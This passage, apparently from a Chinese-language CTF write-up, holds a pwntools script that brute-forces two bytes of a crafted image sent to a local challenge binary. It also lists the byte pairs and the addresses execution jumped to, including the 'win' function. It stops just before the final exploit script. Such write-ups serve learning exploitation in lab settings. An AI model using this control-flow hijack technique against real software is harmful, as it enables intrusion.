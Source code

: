 ```python

data[0x24] = 0x30 - 1 - 8


for i in range(0, 0xff):
    for j in range(0, 0xff):
        cn = process("./chal")
        cn.sendlineafter("How large is your file?\n\n", str(leng))
        # wow, this causes `updata_crc` to return 0x1818
        data[0x25] = i
        data[0x26] = j

        # data[0x28] = 0x1
        cn.sendafter("please send your image here:\n\n", bytes(data))
        cn.sendlineafter("do you want to invert the colors?\n", "y")

        time.sleep(0.5)

        print("i: " + hex(i) + "\nj: " + hex(j))

        if cn.poll() == None :
            print("!!!")
            break;
        cn.close()

```

然后我得到了这些数据, 并逐个调试查看他们跳到哪些位置:

```
`i=0x04, j=0x40`: 0x4018e4 (main+185)

`i=0x07, j=0x7d`: 0x401179 (_start+9)

`i=0x0b, j=0xf3`: 0x4018ee (main+195) 

`i=0x11, j=0x15`: 0x4018c7 (main+156)

`i=0x15, j=0x37`: 0x40182b (main)

`i=0x18, j=0x0b`: 0x401818 (win+4) !!!!!!!!!!!

`i=0x1f, j=0x14`: 0x401169 (exit@plt+9)

`i=0x21, j=0xc7`: 0x4018e7 (main+188)

`i=0x22, j=0xfa`: 0x40117a (_start+10)
```

### 利用

其中有一个是成功的, 于是有了最终的利用脚本
